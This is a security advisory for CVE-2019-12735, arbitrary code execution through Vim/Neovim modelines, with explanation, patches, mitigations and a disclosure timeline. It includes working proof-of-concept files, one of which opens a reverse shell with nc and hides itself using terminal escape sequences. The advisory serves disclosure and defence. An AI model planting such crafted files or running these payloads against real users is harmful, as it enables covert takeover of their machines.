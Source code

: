 *by Arminius ([@rawsec](https://twitter.com/rawsec))*

Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
CVE:     CVE-2019-12735
Date:    2019-06-04
Author:  Arminius (@rawsec)
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create [`poc.txt`](../data/2019-06-04_ace-vim-neovim/poc.txt):

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.

Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`. (`cat
-v` reveals the actual content.)

[`shell.txt`](../data/2019-06-04_ace-vim-neovim/shell.txt):

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file types,
including plain `.txt`. A typical modeline:

    /* vim: set textwidth=80 tabstop=8: */

For security reasons, only a subset of options is permitted in modelines, and
if the option value contains an expression, it is executed in a sandbox: [[1]]

    No other commands than "set" are supported, for security reasons (somebody
    might create a Trojan horse text file with modelines).  And not all options
    can be set.  For some options a flag is set, so that when it's used the
    |sandbox| is effective.

The sandbox is meant to prevent side effects: [[2]]

    The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
    'foldtext' options may be evaluated in a sandbox.  This means that you are
    protected from these expressions having nasty side effects.  This gives some
    safety for when these options are set from a modeline.

However, the `:source!` command (with the bang [`!`] modifier) can be used to
bypass the sandbox. It reads and executes commands from a given file as if
*typed manually*, running them after the sandbox has been left. [[3]]

    :so[urce]! {file}       Read Vim commands from {file}.  These are commands
                            that are executed from Normal mode, like you type
                            them.

Thus, one can trivially construct a modeline that runs code outside the sandbox:

    # vim: set foldexpr=execute('\:source! some_file'):

An additional step is needed for Neovim which blacklists `execute()`: [[4]]

    execute({command} [, {silent}])                         *execute()*
                    Execute {command} and capture its output.
                    [...]
                    This function is not available in the |sandbox|.

Here, `assert_fails()` can be used instead, which takes a `{cmd}` argument, too: [[5]]

    assert_fails({cmd} [, {error} [, {msg}]])               *assert_fails()*
                    Run {cmd} and add an error message to |v:errors| if it does
                    NOT produce an error.

The following modeline utilizes a fold expression to run `source!  %` to
execute the current file, which in turn executes `uname -a || "(garbage)"` as a
shell command:

    :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

Additionally, the Neovim-only function `nvim_input()` is vulnerable to the same
approach via e.g.:

     vi:fen:fdm=expr:fde=nvim_input("\:terminal\ uname\ -a"):fdl=0

(In the past, other modeline-related vulnerabilities have been patched in Vim - see [CVE-2002-1377](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1377), [CVE-2016-1248](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1248).)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))

Beyond patching, it's recommended to disable modelines in the vimrc (`set
nomodeline`), to use the [securemodelines](https://github.com/ciaranm/securemodelines/)
plugin, or to disable `modelineexpr` (since patch 8.1.1366, Vim-only) to disallow
expressions in modelines.

Timeline
--------

    - 2019-05-22 Vim and Neovim maintainers notified
    - 2019-05-23 Vim patch released
    - 2019-05-29 Neovim patch released
    - 2019-06-05 CVE ID CVE-2019-12735 assigned

Also see description of [CVE-2019-12735](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12735).

[1]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/options.txt#L582
[2]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/eval.txt#L13050
[3]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/repeat.txt#L182
[4]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L3247
[5]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L2494
[6]: https://github.com/vim/vim/releases/tag/v8.1.1365
[7]: https://github.com/neovim/neovim/releases/tag/v0.3.6